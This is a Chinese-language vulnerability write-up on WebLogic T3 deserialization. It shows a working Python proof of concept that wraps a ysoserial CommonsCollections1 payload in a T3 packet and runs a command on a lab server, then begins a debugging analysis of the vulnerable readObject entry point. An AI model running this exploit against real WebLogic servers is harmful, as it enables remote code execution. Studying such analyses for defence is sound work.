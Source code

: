 ```
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")  # 占位，保证总长度计算正确
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")  # 固定的T3协议头，直接通过硬编码塞进去
    desflag = binascii.a2b_hex(b"fe010000")  # weblogic反序列化数据的标志
    payload = header + t3header + desflag + payload  # 拼接yso生成的payload
    payload = struct.pack(">I", len(payload)) + payload[4:]  # 通过计算出来的长度替换掉前之前占位的数据
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)

```

这个poc本质就是把ysoserial生成的payload变成t3协议里的数据格式。

- 数据包长度包括了自身长度和其他三部分数据包长度，所以需要先占位，计算出长度后再替换进去
- T3协议头是固定的，直接硬编码进去就行
- 反序列化标志+数据=weblogic反序列化标志`fe010000`+ysoserial生成的序列化数据

![image-20220420151345575](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420151345575.png)

文件创建成功

# 远程调试分析

说到底，其实和RMI反序列化是一个道理，通过序列化传输数据，在另外一端会去反序列化，只是在weblogic中这是通过T3协议完成的，而T3协议有一些自己的特性

我们主要的目的是去找在哪里去反序列化了

漏洞入口点`InboundMsgAbbrev#readObject`

![image-20220420161547575](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420161547575.png)
